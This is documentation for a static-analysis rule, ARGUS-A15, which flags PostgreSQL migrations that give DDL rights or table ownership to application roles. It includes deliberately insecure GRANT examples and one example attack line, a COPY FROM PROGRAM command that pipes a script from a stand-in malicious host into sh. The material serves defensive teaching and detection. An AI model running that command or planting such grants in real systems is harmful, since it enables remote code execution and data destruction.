


# ARGUS-A15: Forbidden DDL Grants and Ownership to Application Roles

> **Rule Code:** `ARGUS-A15`
> **Identifier:** `FORBIDDEN_DDL_APP_ROLE_GRANT`
> **Severity:** `CRITICAL` (Privilege Escalation & Host RCE Blocker)
> **Category:** `Database Security, Access Control & Privilege Escalation Prevention`
> **Target Standards:** CWE-250 (Execution with Unnecessary Privileges), CWE-269 (Improper Privilege Management), OWASP ASVS v4.0.3/v5.0 §V4.1.3, Least Privilege Principle (PoLP)

---

## 1. Overview & Core Invariant

Database migration and schema provisioning scripts (`migrations/`) **must never grant administrative permissions, DDL rights (`CREATE`, `DROP`, `ALTER`, `TRUNCATE`, `SUPERUSER`, `ALL PRIVILEGES`), or table ownership (`OWNER TO`)** to runtime application roles (`app_user`, `web_app`, or `PUBLIC`).

In accordance with the Principle of Least Privilege (PoLP), runtime application roles must strictly be limited to:

1. **Pure DML Permissions:** `SELECT`, `INSERT`, `UPDATE`, `DELETE` on operational tables.
2. **Sequence Permissions:** `USAGE` and `SELECT` on identity and sequence objects.

All table ownership and DDL permissions must be retained exclusively by dedicated migration or administrator roles (`admin_user` / `postgres`).

---

## 2. Technical Grounding & PostgreSQL Engine Realities

### 2.1. Absolute Power of Table Ownership (`OWNER TO`)

In PostgreSQL, the role owning a table possesses absolute authority over that object. The owner can execute `DROP TABLE`, `TRUNCATE`, or disable audit triggers without restriction, bypassing all table-level `REVOKE` policies. Assigning table ownership to runtime roles destroys audit immutability perimeters (`ARGUS-A05`).

### 2.2. Escalation from SQL Injection to Host Remote Code Execution (RCE)

If a runtime application role possesses `ALL PRIVILEGES` or `SUPERUSER`, an attacker exploiting a minor SQL injection vulnerability can execute arbitrary shell commands on the database host operating system:

```sql
COPY users FROM PROGRAM 'curl -s https://malicious.org/payload.sh | sh';
```

When runtime roles are strictly confined to pure DML, the PostgreSQL kernel rejects program execution with `ERROR: must be superuser to COPY to a program`, completely containing the blast radius (CWE-250 / CWE-269).



### 2.3. Schema Poisoning via Public Grants

Granting `CREATE` on `schema public` to pseudo-role `PUBLIC` allows any authenticated user or low-privilege service to inject rogue functions or operators into the PostgreSQL `search_path`.

---

## 3. How Argus Detects Violations (Static Analysis Architecture)

Argus inspects migration SQL scripts using PostgreSQL AST parsing with strict `RoleSpec` and object-type semantics:



1. **Object-Type Aware Privilege Extraction (`grant_ast_walker.go`):** In PostgreSQL grammar (`gram.y`), `opt_privileges` returning `NIL` (`len(stmt.Privileges) == 0`) signifies `ALL [PRIVILEGES]`. Argus deterministically evaluates whether `ALL` conveys DDL rights based on the target object type (`TABLE`, `SCHEMA`, `DATABASE` -> DDL; `SEQUENCE`, `FUNCTION`, `PROCEDURE` -> DML/Usage only).
2. **Explicit `RoleSpec` Resolution (`role_registry.go`):** Resolves `*pg_query.RoleSpec` across all supported variants (`ROLESPEC_PUBLIC`, `ROLESPEC_CSTRING`, `ROLESPEC_CURRENT_USER`, etc.), normalizing identifiers and preventing role-spoofing.
3. **Decoupled `PUBLIC` Pseudo-Role Policy (`role_registry.go`):** Rejects the conflation of the PostgreSQL cluster-wide `PUBLIC` pseudo-role with specific runtime application roles. Emits tailored, semantically accurate diagnostics for each category.
4. **Table Ownership & Role Membership AST Walker (`grant_ast_walker.go`):** Traverses `AlterTableCmd` (`AT_ChangeOwner`) and `GrantRoleStmt` to prevent direct table ownership transfers and administrative role inheritance.

---

## 4. Vulnerability & Risk Taxonomy

| Failure Mode                     | Technical Impact                                                                           | Risk Severity |
| :------------------------------- | :----------------------------------------------------------------------------------------- | :------------ |
| **`ALL PRIVILEGES` to App Role** | Enables privilege escalation from SQL injection to host OS command execution (RCE).        | **CRITICAL**  |
| **Table `OWNER TO` App Role**    | Allows runtime role to drop tables and disable audit triggers, destroying audit integrity. | **CRITICAL**  |
| **`GRANT CREATE` to `PUBLIC`**   | Enables schema poisoning and unauthorized object creation by any authenticated user.       | **HIGH**      |
| **`GRANT TRUNCATE` to App Role** | Permits bulk deletion of entire database tables via compromised application sessions.      | **CRITICAL**  |

---

## 5. Non-Compliant Code Patterns (Bad Examples)

### Example 1: Granting All Privileges

```sql
-- VIOLATION: Grants full administrative privileges to application role
-- 000001_init.up.sql
GRANT ALL PRIVILEGES ON TABLE users TO app_user;
```

### Example 2: Public Schema Create Grant

```sql
-- VIOLATION: Enables schema poisoning by all authenticated database users
-- 000002_permissions.up.sql
GRANT CREATE ON SCHEMA public TO PUBLIC;
```

### Example 3: Transferring Table Ownership

```sql
-- VIOLATION: Assigns irrevocable table control to runtime role
-- 000003_owner.up.sql
ALTER TABLE users OWNER TO app_user;
```

### Example 4: Multi-line DDL Grants

```sql
-- VIOLATION: Multi-line formatting cannot bypass AST analysis
-- 000004_multiline.up.sql
GRANT CREATE, DROP, TRUNCATE
ON SCHEMA public
TO app_user;
```

---

## 6. Compliant Implementation Patterns (Good Examples)

### Solution 1: Pure DML Table Permissions

```sql
-- COMPLIANT: Grants strictly necessary data manipulation privileges
-- 000001_init.up.sql
GRANT SELECT, INSERT, UPDATE, DELETE ON TABLE users TO app_user;
```

### Solution 2: Sequence Permissions for Auto-Increment

```sql
-- COMPLIANT: Grants identity sequence access for record generation
-- 000002_sequences.up.sql
GRANT USAGE, SELECT ON SEQUENCE users_id_seq TO app_user;
```

### Solution 3: Administrator Table Ownership

```sql
-- COMPLIANT: Table ownership retained by dedicated migration role
-- 000003_owner.up.sql
ALTER TABLE users OWNER TO admin_user;
```

---

## 7. How to Suppress (Ignore Directives)

For legacy database bootstrap scripts or local test harnesses:

```sql
-- argus:ignore-a15 intentional legacy bootstrap schema permissions
GRANT CREATE ON SCHEMA public TO PUBLIC;
```

Alternatively, use the canonical identifier alias:

```sql
-- argus:ignore FORBIDDEN_DDL_APP_ROLE_GRANT sandbox environment setup
GRANT ALL PRIVILEGES ON TABLE mock_data TO app_user;
```

---

## 8. Configuration Reference (`.argus.yaml`)

Configure designated runtime application roles and PUBLIC pseudo-role policy in `.argus.yaml`:

```yaml
rules:
  ARGUS-A15:
    enabled: true
    runtime_app_roles:
      - app_user
      - web_app
    forbid_public_grants: true
```
